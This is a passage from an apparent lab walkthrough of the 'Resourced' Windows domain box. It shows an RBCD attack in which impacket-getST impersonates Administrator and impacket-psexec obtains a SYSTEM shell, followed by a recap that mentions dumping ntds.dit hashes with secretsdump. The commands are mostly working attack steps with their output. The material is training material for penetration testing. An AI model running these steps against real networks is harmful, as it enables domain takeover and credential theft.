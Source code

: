 ```python
[*] griffyn$ can now impersonate users on RESOURCEDC$ via S4U2Proxy
```

We now need to get the administrator service ticket. We can do this by using `impacket-getST` with our privileged machine account.

```python
┌──(kali㉿kali)-[~/…/Intermediate/Windows/Resourced/rbcd-attack]
└─$ impacket-getST -spn cifs/resourcedc.resourced.local resourced/griffyn\$:'griffyn' -impersonate Administrator -dc-ip 192.168.205.175
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

> This saved the ticket on our Kali host as **Administrator.ccache**. We need to export a new environment variable named `KRB5CCNAME` with the location of this file.

```bash
sudo sh -c 'echo "192.168.205.175 resourcedc.resourced.local" >> /etc/hosts'
```

> Now, all we have to do is add a new entry in **/etc/hosts** to point `resourcedc.resourced.local` to the target IP address and run `impacket-psexec` to drop us into a system shell.

```python
┌──(kali㉿kali)-[~/…/Intermediate/Windows/Resourced/rbcd-attack]
└─$ sudo impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.205.175

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on resourcedc.resourced.local.....
[*] Found writable share ADMIN$
[*] Uploading file cvwlDtIe.exe
[*] Opening SVCManager on resourcedc.resourced.local.....
[*] Creating service fIOQ on resourcedc.resourced.local.....
[*] Starting service fIOQ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2145]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

This a very fun yet hectic box specially the PrivEsc part. Here's the crux:

1. **Scanning**:
    - Used Nmap to identify open ports and services on the target IP 192.168.205.175.
    - Discovered various services including domain, Kerberos, MSRPC, and SMB.
2. **Enumeration**:
    - Identified the domain `resourced.local`.
    - Used enum4linux to list user accounts, discovering a potential password in the description of the user V.Ventz.
3. **Credential Verification**:
    - Verified the found credentials (V.Ventz) using CrackMapExec.
    - Discovered an SMB share named "Password Audit" containing important files.
4. **Hash Extraction**:
    - Retrieved `ntds.dit` and `SYSTEM` files from the "Password Audit" share.
    - Used impacket-secretsdump to extract user account hashes.
5. **Valid Credential Identification**:
    - Checked the extracted hashes with CrackMapExec and found valid credentials for user L.Livingstone.